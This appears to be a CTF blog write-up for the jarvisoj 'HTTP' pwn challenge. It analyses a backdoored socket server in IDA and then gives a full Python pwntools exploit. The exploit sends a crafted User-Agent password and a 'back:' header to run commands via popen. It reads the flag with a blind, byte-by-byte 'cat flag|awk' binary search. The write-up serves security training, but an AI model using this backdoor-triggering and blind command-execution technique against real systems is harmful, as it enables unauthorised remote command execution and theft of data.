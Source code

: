 ```yaml
---
layout:     post
title:      jarvisoj HTTP
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Problem Description:
题目来源：cncert2016

Download:
https://dn.jarvisoj.com/challengefiles/http.49cb96c66532dfb92e4879c8693436ff

Address:
pwn.jarvisoj.com:9881
```
<!-- more -->


### 0x01 IDA分析

定位到 main 方法, 发现是一个socket通讯的服务端程序

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x00.png)

绑定并且监听 1807 port

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x01.png)

调用 fork 方法处理客户端请求, sub_40137C(::fd) -> handle(::fd) 方法对客户端数据进行处理

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x02.png)

跟进入, 首先将Request-header从buf读进s, 调用sub_40116C方法进行处理

注意: Request-header 尾部以 \r\n\r\n 标志结束

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x03.png)

对 User-agent 的处理

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x04.png)

if处的第2个条件, 判断 User-agent 的内容 v4 是否与特定字符串相同 

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x05.png)

if处的第3个条件, 判断  User-agnent 的内容是否含有子串 "back: "

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x06.png)

判断成功后, 调用 popen 方法执行任意命令

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x07.png)

再看看回显方法

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x08.png)

显然可以根据回显不同来对flag进行逐位猜解


### 0x02 exploit

```
#!/usr/bin/env python

from pwn import *
import os

context.log_level = 21

def get_password():
    counter = 0
    password = ""
    for i in "2016CCRT":
        password += chr(ord(i) ^ counter)
        counter += 1
    return password

def get_payload(command, password):
    payload = ""
    payload += "GET / HTTP/1.1\r\n"
    payload += "User-Agent: %s\r\n" % (password)
    payload += "back: %s\r\n" % (command)
    payload += "\r\n"
    payload += "\r\n"
    return payload

def send_payload(payload):
    Io = remote(HOST, PORT)
    Io.sendline(payload)
    result = Io.read()
    Io.close()
    return result

def execute(command):
    payload = get_payload(command, PASSWORD)
    print "[+] Payload : %s" % (repr(payload))
    return send_payload(payload)
    
def guess_one_byte(index, char):
    command = "cat flag|awk '{if(substr($1,%d,1)>\"%s\") print \"%s\"}'" % (
        index + 1, char, "A")
    print "[+] Executing : [%s]" % (command)
    response = execute(command)
    return (response[len("HTTP/1.1 ")] != "5")

def clear_screen():
    os.system("clear")

def guess(LENGTH):
    flag = ""
    for i in range(LENGTH + 1):
        RIGHT = 0x7F
        LEFT = 0x20
        P = (LEFT + RIGHT) / 2
        while True:
            clear_screen()
            print "[+] Flag : [%s]" % (flag)
            if guess_one_byte(i, chr(P)):
                LEFT = P
            else:
                RIGHT = P
            P = (LEFT + RIGHT) / 2
            print abs(RIGHT - LEFT)
            if abs(RIGHT - LEFT) < 2:
            	flag += chr(P + 1)
                break
    clear_screen()
    print "[+] Flag : [%s]" % (flag)
    return flag

PASSWORD = get_password()

# DEBUG = True
DEBUG = False

if DEBUG:
    HOST = "localhost"
    PORT = 1807
else:
	HOST = "pwn.jarvisoj.com"
	PORT = 9881
LENGTH = 39
print guess(LENGTH)
```

getflag

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-http/0x09.png)